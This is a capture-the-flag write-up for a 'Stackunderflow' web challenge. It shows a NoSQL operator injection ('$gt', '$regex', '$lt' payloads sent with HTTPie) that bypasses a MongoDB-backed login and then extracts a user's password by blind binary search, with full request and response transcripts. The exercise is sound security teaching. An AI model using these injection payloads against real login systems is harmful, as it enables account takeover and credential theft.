






# 10 - Stackunderflow [medium]
> Check out this new Q&A site. They must be hiding something but we don't know
> where to search.
>
> [Stackunderflow](http://whale.hacking-lab.com:3371/)

## Logging in as Admin

The Stackunderflow site only has two things one can do. We can look at a list
of questions, or we can login:




The list of questions is mostly uninteresting:




And so is the login page:




Trying to login seems to always result in an error saying "Unknown user":



The login doesn't seem to be vulnerable to SQL injections either.

Looking through the asked questions we find one by a user called "the_admin":



Interestingly the_admin's name is colored differently, which makes it seem 
likely that this is the admin of the Stackunderflow site. This is a pretty
obvious hint that the site is using a NoSQL database.

Although there are multiple NoSQL databases on the market, the most well known
is arguably MongoDB. Another factor for believing it's MongoDB is that there
appears to be [ObjectIDs](https://docs.mongodb.com/manual/reference/method/ObjectId/)
at the end of the questions URLS (e.g. `"questions/5cc9619fb135c70015b797c4"`).
So for now we assume that the database used is MongoDB, and that we can find
some flaw to abuse it.

Another observation we make is looking at the response headers and noticing
that the site is running [Express](https://expressjs.com/), a common Node.js
web framework.

MongoDB and Node.js... This smells like [Hacking Nodejs And MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html).
Indeed, using the first example in the blog post we are able to login as
"the_admin":


```console
> http -v post http://whale.hacking-lab.com:3371/login username=the_admin password:='{\"$gt\":\"\"}'
POST /login HTTP/1.1
Accept: application/json, */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 50
Content-Type: application/json
Host: whale.hacking-lab.com:3371
User-Agent: HTTPie/1.0.2

{
    "password": {
        "$gt": ""
    },
    "username": "the_admin"
}

HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 12:55:14 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3AtRi4FJ2QI614r-VGIDIQHugH_nYe5I2v.n4DzqVx52wvnjcfKEn%2By3BQIUiOuUBtP6CXYld%2BnYkQ; Path=/; HttpOnly

Found. Redirecting to /
```

Using the cookie from the successful login, we are able to become the_admin. As
the_admin we can view a previously hidden question, essentially telling us
that the flag for the level is the password of the user "null":




## Find null's password

The MongoDB injection technique we used to login as the_admin works since it
bypasses the check for the correct password. Finding the actual password is a
bit harder. But since we have access to MongoDB operators, such as `$gt` and
`$regex`, and since we can tell when a login is failed or not, finding the
password is fairly trivial still.

We begin by using [`$regex`](https://docs.mongodb.com/manual/reference/operator/query/regex/)
and regex character classes to determine the charset, expanding the character class until we
are successfully logged in:

```console
> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9-]+$\"}'
HTTP/1.1 500 Internal Server Error
Content-Length: 1308
Content-Type: text/html; charset=utf-8
Date: Sat, 18 May 2019 16:00:09 GMT
ETag: W/"51c-Wr+16YA2o10680O7sqSQVkfdiUM"
X-Powered-By: Express

> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]+$\"}'
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 16:00:22 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3A8N4n5-ufB1LHM8KYcTBbQDvz99IaIv2t.XuwymI%2Bh%2Fg%2FUtTg954REOmGitgzKgVhkyuNxatTp0kk; Path=/; HttpOnly
```

Then we find the length of the password by setting and increasing the lower
bound of the number of matches against the character class:

```console
> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]{20,}$\"}'
HTTP/1.1 302 Found
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 16:03:27 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3A-SZIGm2EgZ-GlazW0GTYvUqSfIm63Hza.qWZn6s6EqXsM0zML6HCfB8d24h7jXh5uG8ferGJm6P0; Path=/; HttpOnly

> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]{30,}$\"}'
HTTP/1.1 500 Internal Server Error
Connection: keep-alive
Content-Length: 1308
Content-Type: text/html; charset=utf-8
Date: Sat, 18 May 2019 16:03:32 GMT
ETag: W/"51c-Wr+16YA2o10680O7sqSQVkfdiUM"
X-Powered-By: Express

> http -h post http://whale.hacking-lab.com:3371/login username=null password:='{\"$regex\": \"^[a-zA-Z0-9_]{28}$\"}'
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 23
Content-Type: text/plain; charset=utf-8
Date: Sat, 18 May 2019 16:03:46 GMT
Location: /
Vary: Accept
X-Powered-By: Express
set-cookie: connect.sid=s%3AT3amnyOw3c6GAeypuXQLszr3KmZvkYMk.RNubehI6Yux7Xy7cSCDjLvbYPeczs8qa0t9EYJnEDjM; Path=/; HttpOnly
```

With that we know that the password matches the following regex:
`^[a-zA-Z0-9_]{28}$`. Next we will use the `$lt` operator to find the password
one character at a time, by using the fact that the `$lt`-operator compares
string lexicographically (i.e. in pseudo-code: `"a" $lt "b" == true`).

For example, let's assume that the first character of the password is `7`. We
then start testing if the password is `< "1"`. If the comparison is true, then
we know that the first character must be `"0"` since `"0"` is the only
character in the charset that is lexicographically less than `"1"`. Otherwise,
we increment the string and try again. It would look something like this (where
the "x"s represents some unknown character):

```
"7xxxxxxxxxxxxxxx" < "1" == false
"7xxxxxxxxxxxxxxx" < "2" == false
...
"7xxxxxxxxxxxxxxx" < "7" == false
"7xxxxxxxxxxxxxxx" < "8" == true 
=> First char must be "8"-1 (="7")
```

Note that we rely on `"7xxxxxxxxxxxxxxx" < "7" == false` for this to work, 
which might not actually be the case depending on how the implementation for
when one string is shorter than the other. To work around this we pad our input
with "!", so that when the first character is equal we know that our string is
always seen as lower. I.e. our guesses would instead look like this:

```
"7xxxxxxxxxxxxxxx" < "1!!!!!!!!!!!!!!!" == false
"7xxxxxxxxxxxxxxx" < "2!!!!!!!!!!!!!!!" == false
...
"7xxxxxxxxxxxxxxx" < "7!!!!!!!!!!!!!!!" == false
"7xxxxxxxxxxxxxxx" < "8!!!!!!!!!!!!!!!" == true 
=> First char must be "8"-1 (="7")
```

Then we do the same to find the next character in the password ("5" in this
example):

```
"75xxxxxxxxxxxxxx" < "71!!!!!!!!!!!!!!" == false
...
"75xxxxxxxxxxxxxx" < "75!!!!!!!!!!!!!!" == false
"75xxxxxxxxxxxxxx" < "76!!!!!!!!!!!!!!" == true
=> Second char must be "6"-1 (="5")
```

And continue doing that until we have learnt the entire password.

Unfortunately, the password is long enough that this linear search would take 
an unreasonable amount of time. Instead we will have to do a binary search,
starting in the middle of the charset and throwing away half the charset per query,
but the basic comparison is still the same.

Of course we also have to consider that we have to use the login form request
for "asking" these queries. As already state, we will do this by using the
MongoDB `$lt`-operator. Translating `"7xxxxxxxxxxxxxxx" < "2" == false` into
MongoDB query that we can use for the login request it would look like this:

```json
{
    "password": {
        "$lt": "2!!!!!!!!!!!!!!!"
    },
    "username": "null"
}
```

And we will also not get a straight `true` or `false` answer, instead we will 
get a "login failed" (500 status) for `false` and "login successful" (302
status) for `true`.

All of the above was implemented in [solve.py](solve.py). Running it takes a
couple of minutes and then produces the password:

```console
> pipenv run python .\solve.py
...
=> N0SQL_injections_are_a_thing
```

Submitting "N0SQL_injections_are_a_thing" to the Egg-o-Matic(tm) rewards us with
the egg for this level:


